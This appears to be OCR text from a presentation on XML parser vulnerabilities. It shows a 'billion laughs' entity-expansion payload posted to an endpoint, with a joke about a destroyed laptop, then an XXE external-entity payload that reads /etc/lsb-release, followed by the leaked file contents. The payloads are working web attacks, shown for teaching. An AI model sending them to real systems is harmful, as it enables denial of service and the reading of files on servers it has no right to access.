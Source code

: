 
POST /xml

```xml 
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]> 
<lolz>&lol9;</lolz> 
``` 

RESPONSE 

``` 
... the smoking ruin of your former laptop ...
``` 

Note: 
Actually, this is only the 168 million laughs attack

Funny story, my laptop exploded before I could even post this to my test server, because the text editor I was using tried to parse it.

---

### ... what else can we do ...  

---

### External entities 

POST /lxml

```xml 
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY lsb_release SYSTEM "file:///etc/lsb-release">]>
<foo> 
&lsb_release; 
</foo> 
``` 

RESPONSE 

<pre><code> 
DISTRIB_ID&equals;Ubuntu  
DISTRIB_RELEASE&equals;12.04 
DISTRIB_CODENAME&equals;precise 
DISTRIB_DESCRIPTION&equals;"Ubuntu 12.04.3 LTS"</code></pre>
Note: 
